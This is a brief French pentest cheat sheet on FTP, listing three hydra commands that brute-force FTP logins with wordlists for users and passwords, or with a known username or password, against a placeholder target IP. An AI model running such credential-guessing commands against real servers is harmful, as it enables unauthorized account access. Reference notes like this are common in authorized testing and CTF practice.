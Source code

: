 ## FTP
1. Bruteforcer un service FTP sans aucunes informations**:
```
hydra -L [WORDLIST_USERS] -P [WORDLIST_PASSWD] [IPCIBLE] ftp -t 4
```
2. **Bruteforcer un service FTP en ayant le login**:
```
hydra -l [user] -P [WORDLIST_PASSWD] [IPCIBLE] ftp -t 4
```
3. **Bruteforcer un service FTP en ayant le mot de passe**:
```
hydra -L [WORDLIST_USERS] -p [password] [IPCIBLE] ftp -t 4
```
